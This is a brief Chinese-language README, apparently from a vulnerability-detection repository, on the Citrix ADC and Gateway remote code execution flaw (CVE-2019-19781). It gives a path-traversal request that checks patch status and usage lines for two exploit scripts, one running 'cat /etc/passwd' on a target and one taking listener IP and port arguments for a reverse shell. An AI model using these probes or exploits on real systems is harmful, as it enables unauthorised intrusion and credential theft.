 # Citrix Application Delivery Controller和Citrix Gateway的RCE

检测有无补丁:
```  
GET /vpn/../vpns/cfg/smb.conf  
patch>>403  
no patch 200  
```  
无补丁：  
![image](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/Citrix/pic/patch.png)
exp1：  
```
usage: bash CVE-2019-19781.sh XX.XX.XX.XX 'cat /etc/passwd'
```
  
exp2:  
```
usage: citrixmash.py [-h] targetip targetport listenip listenport
```